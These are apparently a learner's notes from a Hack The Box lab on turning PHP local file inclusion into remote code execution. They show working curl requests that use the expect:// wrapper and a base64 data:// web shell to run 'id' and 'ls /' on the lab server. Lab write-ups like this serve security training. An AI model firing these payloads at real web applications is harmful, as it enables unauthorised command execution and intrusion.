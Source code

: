 - **Note:**
    
    To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)
    

### **Expect → RCE [**`extension=expect`]

<aside>
💡 we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

</aside>

> expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases.
> 
> 
> ```php
> 0xR3Y4D@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
> ***extension=expect***
> ```
> 

> As we can see, the `extension` configuration keyword is used to enable the `expect` module, which means we should be able to use it for gaining RCE through the LFI vulnerability. To use the expect module, we can use the `expect://` wrapper and then pass the command we want to execute, as follows:
> 
> 
> ```php
> 0xR3Y4D@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> ```
> 

### Here’s Come The `Flag` 🚩

```php
❯ base64 confg -d | grep allow_url
allow_url_fopen = On
allow_url_include = On
```

```php
❯ curl -s 'http://134.209.22.69:31567/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls%20%2F'
.
.
.
37809e2f8952f06139011994726d9ef1.txt
bin
boot
.
.
.
```
